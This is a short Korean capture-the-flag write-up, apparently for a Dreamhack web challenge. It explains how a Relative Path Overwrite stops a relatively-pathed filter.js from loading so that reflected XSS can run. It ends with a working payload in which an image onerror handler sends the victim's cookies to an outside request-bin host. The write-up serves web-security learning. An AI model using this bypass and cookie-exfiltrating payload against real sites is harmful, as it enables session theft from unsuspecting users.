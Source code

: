 ## 풀이

vuln.php에 xss를 입력하여 쿠키를 탈취하는 문제인데,
filter.js가 걸려있어서 필터링 때문에 원활한 XSS 공격이 불가능하다.
이때 filter.js가 상대 경로로 지정되어 있는 것을 알 수 있는데,
이와 같이 상대 경로로 지정된 스크립트 파일은 base 주소를 변경하여 못 불러오도록 할 수 있다.

guest-book-v2의 DOM Clobbering 마지막 단계와 비슷한 방법의 우회기법을 활용한 것이다.
이를 Relative Path Overwrite라고 한다.

예를 들어

http://domain.com/?page=vuln&param=hi

라고 가정했을 때, vuln 페이지에서 filter.js를 불러온다고 해보자.
이때 http://domain.com/index.php/?page=vuln&param=hi
와 같은 식으로 요청을 보내면,

filter.js를 불러오는 주소가

http://host1.dreamhack.games:24126/filter.js

원래 이거여야 하는데,

http://host1.dreamhack.games:24126/index.php/filter.js

이쪽으로 요청을 보내게 된다.

filter.js는 / 경로에 있기 때문에 index.php/filter.js는 가져올 수 없게 된다.
이를 통해 filter.js를 문 밖에 가둬놓고 우회하여 XSS를 실행시킬 수 있다.

```html
index.php/?page=vuln&param=<img src=abc.jpg onerror=location.href="https://ppccuqa.request.dreamhack.games/"%2bdocument.cookie>
```